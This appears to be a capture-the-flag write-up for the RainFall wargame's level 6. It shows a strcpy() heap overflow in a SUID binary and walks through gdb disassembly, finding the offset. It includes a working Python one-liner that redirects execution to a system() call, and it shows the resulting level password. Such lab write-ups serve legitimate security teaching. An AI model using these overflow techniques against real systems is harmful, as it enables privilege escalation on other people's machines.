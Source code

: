 # Level 6

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner level7 and SUID.
```
level6@RainFall:~$ ls -l
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
It segfaults when run without arguments. It replies to random arguments with "Nope".
```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 Would you like to be my friend?
Nope
```

## Solution

Investigating with gdb, we find the main calls function ```m``` which writes "Nope".
```
level6@RainFall:~$ gdb -q level6
...
(gdb) disas main
...
   0x080484a5 <+41>:	mov    $0x8048468,%edx        ; load address of function m
...
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> ; strcpy() argv[1] to 64 byte buffer
...
   0x080484d0 <+84>:	call   *%eax                  ; call function m
...
(gdb) disas m
...
   0x08048475 <+13>:	call   0x8048360 <puts@plt>   ; write "Nope"
```
But we also find a similar uncalled function ```n``` which calls ```system()```, opening a shell and showing the password.
```
(gdb) info functions
...
0x08048454  n
...
(gdb) disas n
...
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```
strcpy() copies argv[1] to a 64 byte buffer on the heap.

Let's try to overflow this buffer and overwrite ```eip``` with the address of ```n```, thereby jump to executing ```n```.

First, using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 72.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
...
0x41346341 in ?? ()
```
So we build our exploit string:
1. 72 bytes padding
2. address of ```n``` - "\x54\x84\x04\x08"

Then give the exploit string as argument to the binary
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Recreate Exploited Binary

As user level7, in /tmp, create and compile level6_source.c.
```
level7@RainFall:/tmp$ gcc level6_source.c -o level6_source
```
Edit permissions including suid, then move the binary to home directory.
```
level7@RainFall:/tmp$ chmod u+s level6_source; chmod +wx ~; mv level6_source ~
```
Exit back to user level6, then run the source with an updated address of function ```n``` (found with gdb).
```
level7@RainFall:/tmp$ exit
exit
level6@RainFall:~$ /home/user/level7/level6_source $(python -c 'print "A" * 72 + "\x88\x84\x04\x08"')
```
